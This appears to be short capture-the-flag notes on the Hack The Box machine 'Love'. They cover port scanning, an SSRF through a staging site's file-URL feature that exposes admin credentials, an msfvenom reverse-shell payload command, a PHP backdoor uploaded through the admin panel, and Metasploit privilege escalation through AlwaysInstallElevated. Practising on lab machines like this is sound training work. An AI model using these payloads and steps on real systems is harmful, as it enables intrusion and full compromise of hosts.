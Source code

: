 MACHINE IP: 10.10.10.239
MACHINE NAME: LOVE

#nmap scan as ussual.

Open ports:

Port 135: msrpc
Port 139: netbios
Port 443: HTTPS (commonName=staging.love.htb)
Port 80: HTTP (http-title: Voting System using PHP)
Port 5000: Apache httpd.

Navigating to: staging.love.htb/. Ensure this is included in the /etc/hosts file.
This lands us on this page:


Interact some more with this page.
There's an interesting functionality on the demo tab.
Specify the file url: http://127.0.0.1:5000

Score!: Vote Admin Creds admin: @LoveIsInTheAir!!!! 

Navigate to 10.10.10.239/admin and login using the above creds.

#Craft a payload.

msfvenom -p windows/meterpreter/rverse_tcp lport=2525 lhost=tun0 -f exe -o photo.exe


PHP Backdoor: Simple php backdoor by DK, upload through the update status functionality.

Jump on to msfconsole.

search multi/handler

Set lport same as on the php backdoor script.

set payload windows/meterpreter/reverse_tcp.



For root, we use the always_install_elevated in meterpreter

Background the session.

search always_install

set session 1

set lport same as on the php backdoor script.

set lhost tun0




